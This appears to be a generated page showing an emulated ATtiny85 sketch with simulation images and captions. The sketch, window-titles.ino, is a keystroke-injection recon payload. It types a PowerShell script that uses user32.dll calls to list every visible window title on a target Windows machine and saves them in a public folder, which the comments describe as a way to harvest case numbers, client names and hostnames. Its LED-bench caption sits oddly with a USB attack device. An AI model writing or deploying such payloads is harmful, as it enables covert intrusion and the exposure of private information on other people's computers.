
A sketch run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band); at power-on: PB2 HIGH.

Above: at 0.1 s.
At 16.5 s:

Timing chart, 0 to 18.0 s (numbered marks = the images above):


The sketch:

window-titles.ino
```cpp
// recon/window-titles - Tier 2
//
// Titles of every visible window. The fastest situational-awareness win here.
//
// Window titles leak case numbers, client names, hostnames and whatever
// is currently in a browser tab. This is the payload most likely to tell
// you whether to stop what you are doing - run it early, not last.
//
// Read-only, no persistence, nothing left behind except the text file named in
// R_OUT. Output lands in C:\Users\Public\ds-recon\ on the target.

#include <duck.h>

// PROGMEM: this string must live in flash, not SRAM. The ATtiny85 has 512
// bytes of RAM and this script is far larger than that.
static const char S[] PROGMEM =
    R_MKDIR
    "Add-Type -Name U -Namespace W -MemberDefinition '[DllImport(\"user32.dll\")] public static extern bool EnumWindows(EnumProc cb, IntPtr p); [DllImport(\"user32.dll\")] public static extern int GetWindowTextLength(IntPtr h); [DllImport(\"user32.dll\")] public static extern int GetWindowText(IntPtr h, System.Text.StringBuilder s, int n); [DllImport(\"user32.dll\")] public static extern bool IsWindowVisible(IntPtr h); public delegate bool EnumProc(IntPtr h, IntPtr p);'"
    "[W.U]::EnumWindows({param($h,$p) $n=[W.U]::GetWindowTextLength($h); if($n -gt 0 -and [W.U]::IsWindowVisible($h)){$s=New-Object System.Text.StringBuilder ($n+1);[void][W.U]::GetWindowText($h,$s,$n);Write-Host $s.ToString()}; return $true},[IntPtr]::Zero)"
    R_OUT("window-titles.txt")
    R_SHOW("window-titles.txt");

void setup() {
  duckBegin();
  ledPulse(2, 120, 120);
  recon(S);
  ledPulse(4, 150, 150);
}

void loop() {}
```
